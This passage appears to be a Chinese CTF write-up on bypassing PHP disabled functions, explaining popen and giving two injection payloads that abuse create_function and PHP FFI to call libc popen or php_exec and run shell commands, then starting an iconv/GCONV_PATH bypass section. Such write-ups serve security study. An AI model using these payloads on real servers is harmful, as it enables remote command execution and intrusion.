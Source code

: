 C库的system函数调用shell命令，只能获取到shell命令的返回值，而不能获取shell命令的输出结果，如果想获取输出结果我们可以用popen函数来实现：

```c
FILE *popen(const char* command, const char* type);
```

popen()函数会调用fork()产生子进程，然后从子进程中调用 /bin/sh -c 来执行参数 command 的指令。

参数 type 可使用 "r"代表读取，"w"代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

所以，我们还可以利用C库的popen()函数来执行命令，但要读取到结果还需要C库的fgetc等函数。payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls /","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/* 
```

成功执行命令：

![image-20220327200249481](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203272002643.png)



**（三）利用FFI调用PHP源码中的函数**

其次，我们还有一种思路，即FFI中可以直接调用php源码中的函数，比如这个php_exec()函数就是php源码中的一个函数，当他参数type为3时对应着调用的是passthru()函数，其执行命令可以直接将结果原始输出，payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

成功执行

![image-20220327200727927](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203272007084.png)

##  利用iconv来绕过

###  条件

>1.可以写入文件，能命令执行
>
>2.iconv存在

###  原理简述

这里payload能调用到payload.so是因为iconv除了系统提供的gconv模块外，还支持使用GCONV_PATH指定的自定义gconv模块目录下的模块。因此设置GCONV_PATH后，通过我们设置的gconv-modules，就可以在编码转换时如果遇到payload编码，就回去调用payload.so了。调用so文件，就执行命令

###  演示过程

2021SCTF[RCEME]

利用`iconv`去绕过df
